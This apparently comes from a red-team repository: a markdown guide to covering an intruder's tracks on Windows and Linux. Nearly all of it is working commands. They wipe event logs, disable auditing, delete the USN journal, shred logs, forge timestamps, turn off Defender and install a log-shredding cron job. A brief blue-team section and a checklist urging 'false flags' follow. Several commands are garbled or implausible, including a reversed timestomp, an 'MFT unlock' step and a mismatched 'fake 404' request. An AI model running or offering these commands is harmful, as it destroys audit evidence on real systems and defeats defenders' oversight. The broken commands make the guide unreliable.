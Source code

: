 # Paw prints in the wind: Disappearing without a trace

*"The best operations never appear in the SIEM—only in the aftermath."*

## Log obliteration techniques

### Windows Systems

#### Event log manipulation

```powershell
# Nuclear Option (Clears all logs)
wevtutil el | Foreach-Object {wevtutil cl "$_"}

# Surgical Strikes (Security log only)
Clear-EventLog -LogName Security
```

#### Audit policy neutralisation

```
:: Disable future logging
auditpol /clear /y
auditpol /set /category:"Object Access","Account Logon" /success:disable /failure:disable
```

#### USN Journal wiping (NTFS artefacts)

```powershell
fsutil usn deletejournal /D C:  # Destroys file change records
```

### Linux systems

```bash
# Multi-tool log sanitisation
echo "" > /var/log/auth.log
journalctl --vacuum-time=1s  # Systemd logs
find /var/log -type f -exec shred -n 3 -u {} \;  # Physical destruction
```

## Timestomping & metadata warfare

### File Timestamp Forgery

```powershell
# Copy timestamps from legitimate system files (Windows)
(Get-Item legit.dll).LastWriteTime = (Get-Item malware.exe).LastWriteTime
```

```bash
# Linux timestamp laundering
touch -r /bin/bash ./malware.sh  # Inherits bash's timestamps
```

### $MFT manipulation (NTFS)

```
# Requires physical disk access
icacls C:\$MFT /grant Administrators:F  # Unlock MFT
python3 mft_editor.py --target C:\ --timedelta="-7d"  # Shift all timestamps
```

## Anti-forensic toolbox (2025 Edition)

| Tool	          | Purpose	                               | OpSec Risk                   |
|----------------|----------------------------------------|------------------------------|
| Slackercleaner | Multi-platform log wiping              | Moderate (known IOCs)        |
| Timestomp-NG	  | Nanosecond-precision timestamp forgery | Low                          |
| SysmonKiller	  | Disables Sysmon via driver unload      | High (requires admin)        |
| MemPurge	      | Wipes RAM artefacts pre-reboot         | Critical (must be last step) |

Chain tools with living-off-the-land binaries:

```powershell
# Disable Defender logging via LOLBin
Set-MpPreference -DisableRealtimeMonitoring $true -DisableIOAVProtection $true
```

## Real-World OpSec failure (2024 case study)

Operation "Midnight Sun" Failure Points:

* Left Prefetch files intact (C:\Windows\Prefetch\RMM.exe)
* Failed to clear Windows Error Reporting crashes (%ProgramData%\Microsoft\Windows\WER)
* RDP bitmap cache revealed attacker desktop (%LocalAppData%\Microsoft\Terminal Server Client\Cache)

Corrected 2025 Procedure:

```powershell
# Full artefact sterilisation
Remove-Item -Path "$env:LOCALAPPDATA\Microsoft\Terminal Server Client\Cache\*" -Force
Cleanmgr /sagerun:6174  # Disk Cleanup silent mode
```

## Red team best practices

Pre-Operation:  Map all logging systems (SIEM, EDR, LAPS) and identify immutable logs (e.g., Azure Sentinel)

During Operation, use network-based log injection to corrupt SIEM feeds

```python
# Fake 404 errors to mask malicious traffic
requests.get("https://victim.com/login", headers={"X-Forwarded-For": "192.168.1.1"})
```

Post-Operation: Deploy counter-forensic sleepers:

```bash
# Linux cronjob to overwrite logs daily
(crontab -l 2>/dev/null; echo "0 3 * * * shred -n 1 /var/log/*.log") | crontab -
````

## Blue team countermeasures (Test traces)

```bash
# Hunt for timestamp anomalies (Linux)
find / -type f -newermt "2025-01-01" ! -newermt "2025-01-02" -exec ls -l {} \;

# Windows Event Log gaps
Get-WinEvent -LogName Security | Group-Object -Property Id | Where Count -lt 10
```

## 2025

In 2025, forensic teams hunt at the nanosecond level. Your timestomping best be measured in Planck time.

## Required tools

* [TimeSketch (For Testing Your Traces)](https://github.com/google/timesketch)

## Operational checklist

- ✅ Test all cleanup scripts in VM snapshots before deployment
- ✅ Identify immutable cloud logs (AWS CloudTrail, Azure Activity) early
- ✅ Leave false [flags](flag.md) as distraction
